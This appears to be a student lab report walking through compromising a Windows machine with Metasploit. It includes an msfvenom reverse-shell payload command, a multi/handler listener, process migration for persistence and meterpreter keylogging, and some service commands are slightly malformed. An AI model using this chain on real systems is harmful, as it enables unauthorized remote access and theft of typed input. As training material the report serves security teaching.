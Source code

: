 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

### NAME:- PAVITHRA R
### REG NO: 212222230106

Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

![Screenshot 2024-10-28 104103](https://github.com/user-attachments/assets/7c0cf93c-2bcf-4472-8e0c-48a0be5b1344)



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

![Screenshot 2024-10-28 104115](https://github.com/user-attachments/assets/16f8be4c-450a-4174-b3e8-3e43b6b51ee4)



copy the fun.exe into the apache ```/var/www/html ```folder

![Screenshot 2024-10-28 104124](https://github.com/user-attachments/assets/3a7dbe63-7f65-4c65-a3dd-421764f766f1)



Start apache server ```sudo systemctl apache2 start``` 

![Screenshot 2024-10-28 104132](https://github.com/user-attachments/assets/76e2aac9-de69-4482-8f5d-54396430ff02)



Check the status of apache2 ```sudo apache2 status```

![Screenshot 2024-10-28 104155](https://github.com/user-attachments/assets/7fe45094-2884-4cc2-8f3d-1fb03894baee)


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/2d3c9bbd-30bf-4db7-8957-4760d26234a1)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/3b6d33dd-159f-4798-926d-22dece021d73)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/70c71c8a-0ed9-42b7-a002-f07f1d50b459)


keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/1b9359f7-97a1-4452-9cd8-4abba68f2246)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

